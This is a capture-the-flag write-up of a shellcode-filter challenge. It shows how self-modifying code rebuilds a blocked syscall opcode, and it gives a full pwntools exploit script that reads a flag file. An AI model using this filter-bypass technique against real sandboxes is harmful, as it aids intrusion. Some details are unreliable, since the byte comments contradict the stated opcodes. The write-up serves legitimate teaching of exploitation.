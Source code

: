 The idea in this challenge is simple:

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/e39f705f-300d-45fd-ac86-2469ef431e36)

We give the program a shellcode, and if it bypasses a filter it will run it.

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/5d552787-bd1a-4feb-b1e7-88c42192e74e)

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/fac8b584-c84e-4ab3-8639-f3a7569e8967)

the filter basiclly disallows any shellcode which contains the bytes 0xcd,0x80,0xf,0x5,0x89 and 0.

The program also disallows all of the syscalls besides those syscalls:

![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/509673a1-f611-42d6-9e5e-12e039b8f832)

So we can't just pop a shell, we'll need to make a shellcode which does open-read-write to the flag.

First of all, lets ignore the filter. I let pwntools to create my open-read-write shellcode, and it created this:

```asm
   0:   6a 01                   push   0x1
   2:   fe 0c 24                dec    BYTE PTR [rsp]
   5:   48 b8 66 6c 61 67 2e 74 78 74   movabs rax, 0x7478742e67616c66
   f:   50                      push   rax
  10:   48 8d 3c 24             mov    rdi, rsp
  14:   31 d2                   xor    edx, edx
  16:   31 f6                   xor    esi, esi
  18:   6a 02                   push   0x2
  1a:   58                      pop    rax
  1b:   0f 05                   syscall 
  1d:   48 89 c7                mov    rdi, rax
  20:   31 c0                   xor    eax, eax
  22:   6a 50                   push   0x50
  24:   5a                      pop    rdx
  25:   48 89 e6                mov    rsi, rsp
  28:   0f 05                   syscall 
  2a:   6a 01                   push   0x1
  2c:   5f                      pop    rdi
  2d:   48 89 c2                mov    rdx, rax
  30:   48 89 e6                mov    rsi, rsp
  33:   6a 01                   push   0x1
  35:   58                      pop    rax
  36:   0f 05                   syscall

```

we can see that there are just a few instruction which are forbidden:
```
mov    rdi, rsp
mov    rdi, rax
mov    rdx, rax
syscall
```
now we'll have to find a way to do their functionillty differently.
all the `mov x, y` cmds, can be just changed to `lea x, [y]`, which does the exact same thing and removes the 0x48 forbidden byte.
now we just need to thing about the syscall instruction. BUT, the only way to communicate with the os, is with this instruction, and there are not other ways to do a syscall.
So what can we do?
Well, thats when Self Modifing Shellcode comes into play.
the invalid opcodes is 0f 05, right?
BUT, the shellcode is on the stack! its just a constant offset from our friend RSP.
So we can just enter 0x0e and 0x4 as our opcode, and one instruction before them we can do `inc [rsp+offset]; inc [rsp+offset+1]`!
which will modify to the right instruction right before it gets called!
Exploit:

```py
from pwn import *
from ae64 import AE64


context.arch='amd64'

p = remote('challs.dantectf.it',31532)
p.recvline()


shellcode = """
    /* open(file='flag.txt', oflag=0, mode=0) */
    /* push b'flag.txt\x00' */
    push 1
    dec byte ptr [rsp]
    mov rax, 0x7478742e67616c66
    push rax
    lea rdi, [rsp]
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
    /* call read('rax', 'rsp', 0x50) */
    mov rdi, rax
    xor eax, eax /* SYS_read */
    push 0x50
    pop rdx
    mov rsi, rsp
    syscall
    /* write(fd=1, buf='rsp', n='rax') */
    push 1
    pop rdi
    mov rdx, rax
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall

"""

shell = b'\x6a\x01\xfe\x0c\x24\x48\xb8\x66\x6c\x61\x67\x2e\x74\x78\x74\x50'
shell += b'\x48\x8d\x3c\x24' # lea rdi, [rsp]
shell += b'\x31\xd2\x31\xf6\x6a\x02\x58'

shell += b'\x48\xff\x44\x24\x3d' #inc qword ptr[rsp+3d];
shell += b'\x48\xff\x44\x24\x3e' #inc qword ptr[rsp+3e];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall

shell += b'\x48\x8d\x38' # lea rdi, [rax]
shell += b'\x31\xc0'
shell += b'\x6a\x50'
shell += b'\x5a'
shell += b'\x48\x8d\x34\x24' # lea rsi, [rsp]

shell += b'\x48\xff\x44\x24\x55' #inc qword ptr[rsp+55];
shell += b'\x48\xff\x44\x24\x56' #inc qword ptr[rsp+56];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall

shell += b'\x6a\x01\x5f'
shell += b'\x48\x8d\x10'

shell += b'\x48\x8d\x34\x24'
shell += b'\x6a\x01\x58'

shell += b'\x48\xff\x44\x24\x6e' #inc qword ptr[rsp+6e];
shell += b'\x48\xff\x44\x24\x6f' #inc qword ptr[rsp+6f];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall


p.sendline(shell)
p.interactive()
```

